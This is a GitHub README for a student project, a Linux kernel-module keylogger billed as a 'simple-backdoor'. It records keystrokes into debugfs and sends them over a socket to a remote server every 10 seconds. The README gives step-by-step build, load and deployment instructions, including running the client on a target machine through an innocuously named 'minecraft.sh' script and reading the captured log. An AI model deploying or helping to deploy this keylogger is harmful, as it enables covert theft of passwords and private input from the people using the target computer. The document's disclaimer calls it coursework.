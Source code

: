 # simple-backdoor

A kernel module that captures keystrokes from the keyboard and saves them to a file, using the ```debufgs``` library. This file is sent via socket every 10 seconds to a server, also present in this repository.

Using debugfs the backdoor is only available for as long as the computer remains on. Once turned off, the file will be immediately deleted. That's why, the file is stored in the ```/sys/kernel/debug/``` folder that only stores in RAM memory.

Another observation is regarding the connection via socket. The connection is only established for computers on the same network.

**DISCLAIMER:** this repository is a graduation work of the discipline of operating systems and has no unethical purposes.

## Table of contents
- [simple-backdoor](#simple-backdoor)
  - [Table of contents](#table-of-contents)
  - [Compilation](#compilation)
    - [Build](#build)
  - [Usage](#usage)
  - [License](#license)
  - [Developer](#developer)

## Compilation
### Build
Clone the repository 

    # git clone https://github.com/MichelH4cker/simple-backdoor

and compile the kernel module with

    # make

Note that you need to have the linux kernel headers installed for your running kernel version.

To insert the module into the kernel, run:

    # insmod kisni.ko
    OR
    # make load

To unload the module (and clear the logs), run:

    # rmmod kisni

To run the python programs just do
    
    # python3 server.py

    # python3 client.py

## Usage

The correct mode of use happens as follows. First, you need to run the server on a remote computer. This server will be waiting for the connection of the client which, in this case, is the target computer of the backdoor. So, in a computer, run

    # python3 server.py ip port

where ip it's the ip of ther server and port is the port of the server.

Now, for the backdoored computer, things are a bit more difficult. First, you need to enter the client code (```client.py```) and write the IP address and port of the server so that the connection takes place perfectly. Second, at this time, this project does not yet address a practical way to run the program on another computer other than manually. Then go to the target computer and run the bash script as follows

    # sudo ./minecraft.sh

Note that you also need to know the admin password 😢. When the script is executed, the client will connect to the server and start uploading the keylogger. The sending will happen every 10 seconds and in the server terminal it is possible to see the strings received from the backdoor.

If you still have access to the target machine you can verify the file manually by typing the following command in the terminal

    # sudo cat /sys/kernel/debug/backdoor/keylogger

To check the module details:

```
# modinfo backdoor.ko
filename:       backdoor.ko
description:    A simple backdoor with keylogger to debugfs
author:         Michel Hecker Faria
license:        GPL
srcversion:     97D6507873340678492BA80
depends:
retpoline:      Y
name:           backdoor
vermagic:       5.17.5-76051705-generic SMP preempt mod_unload modversions
```

## License
<a href="https://github.com/jarun/googler/blob/master/LICENSE"><img src="https://img.shields.io/badge/license-GPLv2-yellow.svg?maxAge=2592000" alt="License" /></a>

## Developer
Copyright © 2023 [Michel Hecker Faria](mailto:michel.hecker@usp.br)
